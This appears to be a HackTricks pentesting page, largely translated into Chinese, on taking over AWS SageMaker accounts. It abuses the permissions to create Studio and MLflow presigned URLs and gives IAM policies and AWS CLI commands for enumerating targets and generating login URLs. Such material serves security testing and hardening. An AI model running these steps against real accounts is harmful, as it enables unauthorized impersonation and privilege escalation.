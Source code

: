 # AWS - SageMaker Unauthorized Access

{{#include ../../../../banners/hacktricks-training.md}}

## SageMaker Studio - Account Takeover via CreatePresignedDomainUrl (Impersonate Any UserProfile)

### 描述
拥有在目标 Studio `UserProfile` 上调用 `sagemaker:CreatePresignedDomainUrl` 权限的主体，可以生成一个登录 URL，该 URL 可直接以该 `UserProfile` 的身份登录 SageMaker Studio。这样，攻击者的浏览器就会获得一个 Studio 会话，该会话继承该 `UserProfile` 的 `ExecutionRole` 权限，并对该 `UserProfile` 的基于 EFS 的主目录和应用拥有完全访问权限。无需 `iam:PassRole` 或控制台访问权限。

### 要求
- 目标环境中需有 SageMaker Studio 的 `Domain` 和一个目标 `UserProfile`。
- 攻击者主体需要在目标 `UserProfile` 上拥有 `sagemaker:CreatePresignedDomainUrl`（资源级别）或 `*` 权限。

最小策略示例（作用范围为单个 `UserProfile`）：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedDomainUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:user-profile/<domain-id>/<user-profile-name>"
}
]
}
```
### 滥用步骤

1) 枚举你可以针对的 Studio Domain 和 UserProfiles
```bash
DOM=$(aws sagemaker list-domains --query 'Domains[0].DomainId' --output text)
aws sagemaker list-user-profiles --domain-id-equals $DOM
TARGET_USER=<UserProfileName>
```
2) 生成 presigned URL（默认有效期约 ~5 分钟）
```bash
aws sagemaker create-presigned-domain-url \
--domain-id $DOM \
--user-profile-name $TARGET_USER \
--query AuthorizedUrl --output text
```
3) 在浏览器中打开返回的 URL，以目标用户身份登录 Studio。在 Studio 内的 Jupyter 终端中验证实际身份：
```bash
aws sts get-caller-identity
```
Notes:
- `--landing-uri` 可以省略。某些值（例如 `app:JupyterLab:/lab`）可能会根据 Studio 的版本/变体被拒绝；默认通常会先重定向到 Studio 首页，然后再到 Jupyter。
- 组织策略/VPC 终端节点限制仍可能阻止网络访问；生成令牌不需要控制台登录或 `iam:PassRole`。

### Impact
- 通过假定任何其 ARN 被允许的 Studio `UserProfile` 来进行横向移动和权限提升，从而继承其 `ExecutionRole` 以及文件系统/应用。

### Evidence (from a controlled test)
- 在目标 `UserProfile` 上仅具有 `sagemaker:CreatePresignedDomainUrl` 的情况下，攻击者角色成功返回了类似如下的 `AuthorizedUrl`：
```
https://studio-d-xxxxxxxxxxxx.studio.<region>.sagemaker.aws/auth?token=eyJhbGciOi...
```
- 直接的 HTTP 请求会以重定向 (HTTP 302) 到 Studio 响应，确认该 URL 在过期之前有效且处于激活状态。

## SageMaker MLflow Tracking Server - ATO via CreatePresignedMlflowTrackingServerUrl

### 描述
具有对目标 SageMaker MLflow Tracking Server 调用 `sagemaker:CreatePresignedMlflowTrackingServerUrl` 权限的主体，可以生成一个一次性预签名 URL，该 URL 可直接对该服务器的托管 MLflow UI 进行认证。 这会授予与合法用户在该服务器上相同的访问权限（查看/创建实验和运行，以及在服务器的 S3 artifact store 中下载/上传 artifact），无需控制台访问或 `iam:PassRole`。

### 要求
- 目标账户/区域中存在一个 SageMaker MLflow Tracking Server，并知道其名称。
- 攻击者主体需要在目标 MLflow Tracking Server 资源上拥有 `sagemaker:CreatePresignedMlflowTrackingServerUrl` 权限（或 `*`）。

最小策略示例（限制到单个 Tracking Server）：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sagemaker:CreatePresignedMlflowTrackingServerUrl",
"Resource": "arn:aws:sagemaker:<region>:<account-id>:mlflow-tracking-server/<tracking-server-name>"
}
]
}
```
### 滥用步骤

1) 枚举你可以针对的 MLflow Tracking Servers 并选定一个名称
```bash
aws sagemaker list-mlflow-tracking-servers \
--query 'TrackingServerSummaries[].{Name:TrackingServerName,Status:TrackingServerStatus}'
TS_NAME=<tracking-server-name>
```
2) 生成一个 presigned MLflow UI URL (短时间内有效)
```bash
aws sagemaker create-presigned-mlflow-tracking-server-url \
--tracking-server-name "$TS_NAME" \
--expires-in-seconds 300 \
--session-expiration-duration-in-seconds 1800 \
--query AuthorizedUrl --output text
```
3) 在浏览器中打开返回的 URL，以该 Tracking Server 的已认证用户身份访问 MLflow UI。

注意：
- Tracking Server 必须处于就绪状态（例如 `Created/Active`）。如果仍处于 `Creating`，请求将被拒绝。
- 预签名 URL 为一次性且短期有效；需要时请生成新的。

### 影响
- 直接访问目标 Tracking Server 的托管 MLflow UI，使你能够在服务器配置所强制的权限范围内查看和修改 experiments/runs，并检索或上传存储在服务器配置的 S3 artifact store 中的 artifacts。

{{#include ../../../../banners/hacktricks-training.md}}
